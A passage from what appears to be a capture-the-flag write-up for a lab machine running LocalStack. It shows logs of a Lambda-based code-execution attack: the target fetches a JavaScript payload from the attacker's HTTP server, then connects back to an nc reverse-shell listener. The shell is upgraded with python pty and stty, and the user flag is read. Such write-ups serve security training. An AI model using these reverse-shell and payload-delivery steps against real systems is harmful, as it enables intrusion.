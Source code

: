 [![lambda_rce](/img/stacked/lambda_rce.png)](/img/stacked/lambda_rce.png)

After about a minute again we first get a hit for the javascript payload and soon afterwards for our reverse shell.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.223.207 - - [19/Sep/2021 11:16:03] "GET /b.js HTTP/1.1" 200 -
10.129.223.207 - - [19/Sep/2021 11:16:44] "GET / HTTP/1.1" 200 -
```

We upgrade the reverse shell using python, fix the terminal size and can now grab the user flag.

```
$ sudo nc -lnvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.223.207.
Ncat: Connection from 10.129.223.207:52390.
bash: cannot set terminal process group (22): Not a tty
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
bash-5.0$ python -c 'import pty;pty.spawn("/bin/sh")'
python -c 'import pty;pty.spawn("/bin/sh")'
/opt/code/localstack $ export TERM=xterm
export TERM=xterm
/opt/code/localstack $ ^Z
[1]+  Stopped                 sudo nc -lnvp 443
$ stty raw -echo;fg
sudo nc -lnvp 443

/opt/code/localstack $ stty rows 55 cols 236
/opt/code/localstack $ wc -c /home/localstack/user.txt
33 /home/localstack/user.txt
```
